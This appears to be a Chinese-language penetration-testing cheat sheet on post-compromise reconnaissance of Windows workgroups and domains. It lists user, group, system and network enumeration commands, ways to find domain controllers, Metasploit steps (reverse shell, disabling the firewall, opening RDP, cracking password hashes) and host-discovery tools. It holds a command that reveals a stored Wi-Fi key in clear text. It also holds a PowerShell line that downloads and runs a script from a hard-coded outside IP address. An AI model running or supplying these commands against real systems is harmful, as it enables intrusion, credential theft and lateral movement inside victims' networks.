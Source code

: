 ## 工作组信息收集
### 用户信息
```shell
# 本机用户列表
net user
# 本机组列表
net localgroup

# 本地管理员信息
net localgroup administrators

quser
query user
query user || user_name  #指定用户查询在线

# 系统中的具体权限
whoami /all
# 当前权限
whoami && whoami /priv
```

### 系统信息
```shell
systeminfo | findstr /B /C: "OS Name" /C:"OS Version"

# 系统版本 win
ver
wmic os list brief
wmic os get Caption,CSDVersion,OSArchitecture,Version
wmic useraccount list brief
```


### 网络信息
```
netstat -ano
netstat -anob

# 路由表和arp缓存
route print
arp -a

# 本机共享列表和可访问的域共享列表
net share
wmic share get name,path,status
```

### 防火墙信息
```shell
netsh firewall show config
```

### wifi密码
```shell
# 需要admin
netsh wlan show profile name="HUAWEI-MINGY" key=clear
```

### 回收站文件
遍历当前系统中所有用户账户, 并将每个用户的回收站的文件列表导出到文本文件`c.txt`中
```
FOR /f "skip=1 tokens=1,2 delims= " %c in ('wmic useraccount get name^,sid') do dir /a /b C:\$Recycle.Bin  
\%d\ ^>%c.txt
```

### WMIC
Windows命令行工具, 获取主机信息, 名称管理
```wmic-info.bat
:: BIOS信息  
wmic BIOS list full /format:htable > wmic.html  
:: CPU信息  
wmic CPU list full /format:htable >> wmic.html  
:: 启动配置管理  
wmic BOOTCONFIG list full /format:htable >> wmic.html  
:: 系统环境管理  
wmic ENVIRONMENT list /format:htable >> wmic.html  
:: 系统帐户管理  
wmic SYSACCOUNT list full /format:htable >> wmic.html  
:: 共享资源管理  
wmic SHARE list full /format:htable >> wmic.html  
:: 进程  
wmic PROCESS get CSName,Description,ExecutablePath,ProcessId /format:htable >> wmic.html  
:: 服务  
wmic SERVICE get Caption,Name,PathName,ServiceType,Started,StartMode,StartName /format:htable >> wmic.htm  l  
:: 用户帐号  
wmic USERACCOUNT list full /format:htable >> wmic.html  
:: 用户组  
wmic GROUP list /format:htable >> wmic.html  
:: 网络接口  
wmic NICCONFIG where IPEnabled='true' get Caption,DefaultIPGateway,Description,DHCPEnabled,DHCPServer,IPAddress,IPSubnet,MACAddress /format:htable >> wmic.html  
:: 硬盘信息  
wmic VOLUME get Label,DeviceID,DriveLetter,FileSystem,Capacity,FreeSpace /format:htable >> wmic.html  
:: 网络共享信息  
wmic NETUSE list full /format:htable >> wmic.html  
:: 安装的Windows补丁  
wmic qfe get Caption,Description,HotFixID,InstalledOn /format:htable >> wmic.html  
:: 启动运行程序  
wmic STARTUP get Caption,Command,Location,User /format:htable >> wmic.html  
:: 安装的软件列表  
wmic PRODUCT get Description,InstallDate,InstallLocation,PackageCache,Vendor,Version /format:htable >> wmic.html  
:: 操作系统  
wmic os get name,version,InstallDate,LastBootUpTime,LocalDateTime,Manufacturer,RegisteredUser,ServicePackMajorVersion,ServicePackMinorVersion,SystemDirectory /format:htable >> wmic.html

:: 时区信息  
wmic Timezone get DaylightName,Description,StandardName /format:htable >> wmic.html
```

### Powershell
[PowerShellMafia/PowerSploit: PowerSploit - A PowerShell Post-Exploitation Framework](https://github.com/PowerShellMafia/PowerSploit)
## 域内信息收集
### net
```shell
# 查询指定域内所有主机
net view /domain:<domain_name>

# 查询域内所有组
net group /domain

# 域管理员的用户组/所有成员
net group "domain admins" /domain
net group "domain computers" /domain

# 域系统管理员用户组: "Enterprise admins"
# 域控制器: "domain controllers"

# 查看域DNS是否和登录域域控信息是否匹配
net config workstation
```

### Dsquery
检索`Active Directory`目录对象如用户, 组, 计算机和OU
```shell
# 查找具有特定通用名称(Common Name, CN)的用户
dsquery user -limit 0 "cn=用户名"
```

### 定位域控
1. 用`ipconfig`获取本地网络接口, 获取DNS
2. 用`nslookup`查询LDAP服务记录, 识别域控机器
	`nslookup -type=all _ldap._tcp.dc._msdcs.mingy.com`
3. `setspn`查询服务主体名称, 识别域控机器
	`netspn -q */*`
4. `net group`查询域控制器组, 直接定位域控组成员
	`net group "domain controllers" /domain`

## MSF内网信息收集
1. 反弹shell
2. 关闭防火墙
3. `getgui`, 打开3389, 执行远程桌面
	- 先用`screenshot`查看是否目标正在被使用
4. 口令破解: meterpreter
	- 格式 `用户名称 : RID : LM-HASH值 : NT-HASH值`
5. `Winenum`: 枚举查询信息
6. 主机发现`/scanner/discovery`, 端口扫描`/scanner/portscan/syn`
7. 服务扫描

## 内网主机存活

Netbios协议应用程序接口, 使应用程序请求网络服务和资源访问, 实现多种解析机制, 将计算机名称解析未IP地址
- Windows Internet Name Service
- 广播查询
- Lmhosts
nmap, msf, Nbtscan
http://www.unixwiz.net/tools/nbtscan.html

ICMP协议检测: 扫描内网C段ping
- Nmap扫描: `-PE`: 使用echo请求ping扫描
- powershell脚本扫描： `Invoke-TSPingSweep.ps1`

UDP协议检测
- Nmap UDP扫描: `-sU`指定UDP扫描
- msf UDP探测
	- `auxiliary/scanner/discovery/udp_probe`
	- `auxiliary/scanner/discovery/udp_sweep`
- unicornscan 工具, 卡里自带

ARP协议检测
- Nmap: `-PR`
- msf: `auxiliary/scanner/discovery/arp_sweep`
- Netdiscover 工具, kali自带
- powershell: `arpscan.ps1`
- `arp-scan`工具, linux/windows
	- https://linux.die.net/man/1/arp-scan
	- https://github.com/QbsuranAlang/arp-scan-windows-/tree/master/arp-scan

SMB协议: 网络文件共享协议
- Nmap: `-sU`
- `crackmapexec` 网络身份验证工具
	- `crackmapexec smb 10.10.10.0/24`
- msf: `auxiliary/scanner/smb/smb_version`

端口检测
https://raw.githubusercontent.com/samratashok/nishang/c3fdf5e5dfa8612d0a17636dbb096b04e987ab31/Scan/Invoke-PortScan.ps1
```shell
powershell iex(new-object net.webclient).downloadstring('http://47.104.255.11:8000/Invoke-PortScan.ps1');  
Invoke-PortScan -StartAddress 10.10.10.1 -EndAddress 10.10.10.255 -ResolveHost -ScanPort
```

## 内网信息收集工具
Fscan: 有用
LadonGo: https://github.com/k8gege/LadonGo
Adfind: [AdFind](https://www.joeware.net/freetools/tools/adfind/index.htm)
BloodHound
